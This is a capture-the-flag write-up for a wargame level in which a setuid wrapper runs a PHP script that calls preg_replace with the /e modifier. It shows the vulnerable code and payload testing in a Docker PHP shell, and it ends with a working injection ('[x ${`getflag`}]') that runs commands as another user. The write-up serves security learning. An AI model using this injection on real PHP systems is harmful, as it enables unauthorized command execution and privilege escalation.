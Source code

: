 # Level 06

## Initial Context

- Two file: `level06` and `level06.php`

## Solving the Challenge

### Analyzing

```bash
$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

`level06` seems to be a PHP interpreter connected to `level06.php`.

```bash
$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

Cleaning this file, we have:

```php
<?php

function y($m)
{
    $m = preg_replace('/\./', ' x ', $m);
    $m = preg_replace('/@/', ' y', $m);
    return $m;
}

function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace('/(\[x (.*)\])/e', "y(\"\\2\")", $a);
    $a = preg_replace('/\[/', '(', $a);
    $a = preg_replace('/\]/', ')', $a);
    return $a;
}

$r = x($argv[1], $argv[2]);
print $r;

?>
```

The exploit here resides  in the usage of the [regex's E modifier, allowing code to be executed for a string replacement](https://stackoverflow.com/a/16986549/7292958).

The regex expect to match a string like: `[x <something>]`

```
.----------------- starting the regex
|.---------------- capturing 1st group
|| .-------------- litteral string "[x "
|| |  .----------- caturing 2nd group
|| |  |   .------- litteral string "]"
|| |  |   |  .---- ending of the regex
|| |  |   |  |.--- regex modifiers: e
|| |  |   |  ||
/(\[x (.*)\])/e
```

And if match is found, it will be replaced with:

```
.------ calling `y` function
|  .--- placing 2nd capture group
|  | 
y("\2")
```

An example would be:

```
[x hello]  -->  y("hello")
```

So if we manage to call custom code, we will be able to execute a Linux command with the same privileges as `flag06`.

### Exploiting

Using a simple docker running a vulnerable PHP version, we can test things:

```
docker run --rm -it php:5-cli
```

We can evaluate simple expressions:

```php
php> echo preg_replace('/(.*)/e', "\\1", "1+1");
2
```

But calling methods with a string parameter seems to fail...

```php
php > echo preg_replace('/(.*)/e', "\\1", "shell_exec('id')");
Parse error: syntax error, unexpected ''id\');' (T_ENCAPSED_AND_WHITESPACE), expecting identifier (T_STRING) in php shell code(1) : regexp code on line 1

Fatal error: preg_replace(): Failed evaluating code:
shell_exec(\'id\') in php shell code on line 1
```

```php
php> echo preg_replace('/(.*)/e', "\\1", "shell_exec(\"id\")");
Parse error: syntax error, unexpected '"', expecting identifier (T_STRING) in php shell code(1) : regexp code on line 1

Fatal error: preg_replace(): Failed evaluating code:
shell_exec(\"id\") in php shell code on line 1
```

However, `shell_exec($cmd)` can be replaced using the [backtick operator](https://www.php.net/manual/en/function.shell-exec.php#:~:text=This%20function%20is%20identical%20to%20the%20backtick%20operator.).

```php
php> echo preg_replace('/(.*)/e', "\\1", "`id`");
uid=0(root) gid=0(root) groups=0(root)
```

Perfect, now we can combine it with the required string to make a match.

```bash
$ echo '[x `id`]' | ./level06 php://stdin
`id`
```

It seems to not work since we are being put between quotes. (`y("\2")`)

We can bypass that by using [string variables](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing). That mean wrapping our payload inside a `${code}`.

```bash
$ echo '[x ${`id`}]' | ./level06 php://stdin
PHP Notice:  Undefined variable: uid=3006(flag06) gid=2006(level06) groups=3006(flag06),100(users),2006(level06)
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

We are getting an error because PHP is trying to execute the output of `id`. But we are still getting the output, so its fine.

```bash
$ echo '[x ${`getflag`}]' | ./level06 php://stdin
PHP Notice:  Undefined variable: Check flag.Here is your token : ....
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Success!